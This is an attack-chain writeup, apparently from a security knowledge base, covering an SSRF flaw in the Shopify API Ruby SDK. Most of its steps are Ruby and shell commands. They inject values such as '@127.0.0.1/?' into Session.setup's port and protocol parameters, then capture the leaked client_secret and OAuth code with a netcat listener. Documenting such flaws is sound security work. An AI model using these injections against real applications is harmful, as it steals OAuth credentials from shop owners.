

---
tags:
  - ssrf
  - shopify
  - ruby
  - sdk
  - input-validation
  - oath-leak
type: attack_chain
tools:
  - '[[tools/pry]]'
  - '[[tools/nc]]'
tactics:
  - '[[Collection]]'
verified: false
platforms:
  - Ruby
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Analyze-Shopify-API-SDK-for-Input-Validation-Flaws]]'
  - '[[procedures/Test-Session-Setup-with-Valid-Port]]'
  - '[[procedures/Exploit-Port-Parameter-for-Arbitrary-Host-Injection]]'
  - '[[procedures/Capture-Exfiltrated-Data-with-Netcat]]'
  - '[[procedures/Exploit-Protocol-Parameter-for-SSRF]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Application Access Token]]'
updated_at: '2025-12-14T04:39:18.779Z'
description: >-
  Multi-stage attack exploiting lack of input validation in Shopify API Ruby
  SDK's Session.setup method to inject arbitrary domains via port and protocol
  parameters, enabling SSRF and exfiltration of sensitive OAuth credentials.
skill_level: intermediate
impact_level: high
id: aa9cc2a7-128f-47a1-9713-387217eb9252
validated: true
mitre_tactics:
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Application Access Token]]'
---
# SSRF in Shopify API Ruby SDK via Improper Input Validation in Session Setup

Multi-stage attack chain demonstrating exploitation of the Shopify API Ruby SDK vulnerability, where improper validation of 'port' and 'protocol' parameters in Session.setup allows arbitrary domain injection, leading to Server-Side Request Forgery (SSRF) and exfiltration of sensitive data like client_secret, client_id, and OAuth codes to an attacker-controlled server.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/pry]]
- [[tools/nc]]

### Target Environment

- Ruby environment with Shopify API SDK installed
- Access to pry for interactive testing
- Netcat for listening on localhost ports (80, 443)

### Initial Access Requirements

- Valid Shopify shop domain (e.g., test.myshopify.com)
- Knowledge of OAuth parameters (hmac, timestamp)
- Local network control for SSRF capture

## Detailed Attack Procedures

### Step 1: Analyze SDK for Input Validation Flaws
procedure: [[procedures/Analyze-Shopify-API-SDK-for-Input-Validation-Flaws]]

**Objective**: Identify vulnerabilities in Session.setup and related methods by reviewing code for lack of sanitization on port and protocol parameters.

**Instructions**: Examine the prepare_url method, which appends port directly without validation, and access_token_request, which uses URI.parse on manipulated URLs.

**Expected Output**: Confirmation of injection points via code review.

**Success Indicators**:
- Identified lack of regex validation on port/protocol
- Noted URI parsing quirks allowing '@' for host override

### Step 2: Test Session Setup with Valid Port
procedure: [[procedures/Test-Session-Setup-with-Valid-Port]]

**Objective**: Verify how legitimate port values modify URL construction in sessions.

**Instructions**: Launch pry, require the SDK, setup with port '80', and create a session to observe URL appending.

Use [[commands/require-shopify-api]]:

```ruby
require 'shopify_api'
```

Then [[commands/setup-session-with-port]]:

```ruby
ShopifyAPI::Session.setup port: '80', secret: ''
```

Follow with [[commands/create-test-session]]:

```ruby
session = ShopifyAPI::Session.new('test.myshopify.com')
```

**Expected Output**: Session URL as 'test.myshopify.com:80'.

**Success Indicators**:
- Port appended to URL without error
- Confirms direct concatenation behavior

### Step 3: Exploit Port Parameter for Arbitrary Host Injection
procedure: [[procedures/Exploit-Port-Parameter-for-Arbitrary-Host-Injection]]

**Objective**: Inject malicious host via port to redirect requests to localhost, triggering SSRF during token request.

**Instructions**: In pry, setup with injected port '@127.0.0.1/?', create session, and call request_token with OAuth params.

Use [[commands/setup-session-with-malicious-port]]:

```ruby
ShopifyAPI::Session.setup protocol:'https',secret:'',port:'@127.0.0.1/?'
```

Then [[commands/create-shop-session]]:

```ruby
session = ShopifyAPI::Session.new('some-shop.myshopify.com')
```

Finally [[commands/request-token-with-leak]]:

```ruby
access_token = session.request_token({'hmac'=>'d54d830d05601f0b4247f654e4c57b51318be655f40c7a7119141c98a23f6815','timestamp':'2000000000'})
```

**Expected Output**: POST request to 127.0.0.1:443 leaking form data.

**Success Indicators**:
- Net::HTTP constructed with injected host/port
- Sensitive data (client_id, client_secret, code) exfiltrated

### Step 4: Capture Exfiltrated Data with Netcat
procedure: [[procedures/Capture-Exfiltrated-Data-with-Netcat]]

**Objective**: Intercept and log the SSRF request containing leaked credentials.

**Instructions**: Run netcat listener on port 443 before triggering the exploit.

Execute [[commands/netcat-listen-443]]:

```bash
nc -l -n -vv -p 443
```

**Expected Output**: Captured POST /?/admin/oauth/access_token with form-encoded body including secrets.

**Success Indicators**:
- Incoming connection from local process
- Visible leaked OAuth parameters in request body

### Step 5: Exploit Protocol Parameter for SSRF
procedure: [[procedures/Exploit-Protocol-Parameter-for-SSRF]]

**Objective**: Use protocol injection as an alternative to port for SSRF redirection.

**Instructions**: Setup with full injected protocol 'https://127.0.0.1/?', then proceed with session and token request as in Step 3.

Use [[commands/setup-session-with-malicious-protocol]]:

```ruby
ShopifyAPI::Session.setup protocol:'https://127.0.0.1/?',secret:''
```

Follow with session creation and request_token calls from Step 3.

**Expected Output**: Similar SSRF to 127.0.0.1 with leaked data.

**Success Indicators**:
- URI.parse overrides intended shop domain
- Request sent to injected endpoint

## Attack Chain Summary

### Key Achievements

1. Discovered input validation bypass in SDK Session.setup
2. Demonstrated SSRF exfiltration of OAuth credentials via port/protocol injection
3. Captured sensitive data (client_secret, client_id, code) on attacker-controlled localhost

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Steal Application Access Token]]

### MITRE ATT&CK Tactics

- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
